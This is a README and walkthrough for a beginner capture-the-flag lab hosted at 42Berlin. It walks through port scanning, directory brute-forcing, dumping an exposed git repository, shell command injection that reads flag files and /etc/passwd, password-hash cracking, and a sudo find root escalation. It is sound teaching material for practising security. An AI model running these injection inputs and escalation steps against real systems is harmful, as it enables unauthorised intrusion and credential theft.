 # 42Berlin CTF July 2024

This repo contains the service used for the CTF hosted in 42Berlin in July 2024.

In order to host it again, a new service needs to be deployed to submit the flags.
The project https://ctfd.io/ is an easy and customizable option.

## Content

The service is deployed using docker-compose. It creates a container running the following services:
- Port 22: SSH server with password authentication configured
- Port 4242: Python Flask server hosting the vulnerable service
- Port 42424: Python Flask server hosting a single page with a flag

The directory tools is not used in the deployment, it contains the files and tools provided to students
during the challenge.

## Write-Up

This CTF is meant to be an introduction to penetration testing, where very step is awarded with a flag.

### Flag 1
The first flag is after performing a port scan with nmap.
```
$ nmap -p- hackme.42berlin.de
```
After scanning all ports, nmap shows that the ports 22, 4242 and 42424 are open. The flag is present in the port 42424.

### Flag 2
The second flag is found after brute-forcing the directories running on port 4242. Also a .git folder is present.
```
$ gobuster dir -u http://hackme.42berlin.de:4242 -w /usr/share/wordlists/fuzzing_wordlist.txt
```
### Flag 3
For the third flag, it is necessary to read the source code of the application. In order to do this, the tool gitdumper is available.
```
$ git-dumper http://hackme.42berlin.de/.git /tmp/ctf_git_dump
```
After dumping the source code, two interesting things are found:
- The flag
- Credentials to authenticate as an administrator in the application

### Flag 4
After authenticaing, users can test the admin tool.

By analizing the code, a vulnerable line is found when executing the file check_command.sh. As the input is not properly sanitized,
users can execute arbitrary shell commands on the server.

Input to get the flag:
"$(cat /home/adrian/flag.txt)"

### Flag 5
To get the fifth flag, its necessary to read the /etc/passwd file on the server

Input to get the hash:
"$(cat /etc/passwd)"

To crack the hash, the tool john the ripper is provided.
```
$ john hash.txt –wordlist=/usr/share/wordlists/password_wordlists.txt
```
To get the flag, login via ssh as pedro:
```
$ ssh -p 22 pedro@hackme.42berlin.de
# cat /home/pedro/flag.txt
```
### Flag 6
The last flag can be found after rooting the server. To do this, basic Linux enumeration will do the trick.
```
$ sudo -l
User pedro may run the following commands on 6f8198e12837:
    (ALL) /bin/find
```
The find command can be used to escalate privileges if the command is executed with the root PID -> https://gtfobins.github.io/gtfobins/find/
```
$ sudo find / -exec /bin/bash \;
# cat /root/flag.txt
```
